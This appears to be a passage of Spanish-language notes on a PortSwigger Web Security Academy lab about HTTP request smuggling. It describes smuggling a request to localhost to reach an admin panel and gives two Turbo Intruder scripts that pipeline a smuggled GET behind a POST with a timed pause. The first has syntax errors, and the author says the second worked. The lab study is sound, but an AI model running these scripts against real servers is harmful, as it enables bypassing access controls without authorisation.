 Aquí modificamos la petición smuggleada para apuntar al host localhost, lo que nos permite eludir restricciones de acceso y alcanzar el panel de administración.

El resultado confirma el acceso interno al panel, validando que el ataque puede romper controles de acceso basados en IP.

Solucion
Entonces para efectuar el payload vamos a ocupar la extencion turbo intruder del BS y la configuramos de esta manera

payload (# Find more example scripts at https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/default.py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    attacker_request = """POST /resources HTTP/1.1
Host: 0ad5004303587aa0806d9ef000090092.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: %$

%$"""

    smuggled_request = """GET /error HTTP/1.1
Host: 0ad5004303587aa0806d9ef000090092.web-security-academy.net

"""

    normal_request = """GET / HTTP/1.1
Host: 0ad5004303587aa0806d9ef000090092.web-security-academy.net

"""

    engine.queue(attacker_request, [len(smuggled_request), smuggled_request], pauseMarker=['\r\n\r\nGET'], pauseTime=61000)
    engine.queue(normal_request)

def handleResponse(req, interesting):
    table.add(req))
    ![Pasted_image_20250812234714.png](/Imagenes/Pasted_image_20250812234714.png)
    pero este payload fue el que me funciono 
    (def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    smuggled_request = """GET /error HTTP/1.1
Host: 0ad5004303587aa0806d9ef000090092.web-security-academy.net

"""

    attacker_request = """POST /resources HTTP/1.1
Host: 0ad5004303587aa0806d9ef000090092.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: %s

%s"""

    normal_request = """GET / HTTP/1.1
Host: 0ad5004303587aa0806d9ef000090092.web-security-academy.net

"""

    engine.queue(attacker_request, [str(len(smuggled_request)), smuggled_request], pauseMarker=['\r\n\r\nGET'], pauseTime=61000)
    engine.queue(normal_request)

def handleResponse(req, interesting):
    table.add(req)
)

![Pasted_image_20250812235400.png](/Imagenes/Pasted_image_20250812235400.png)
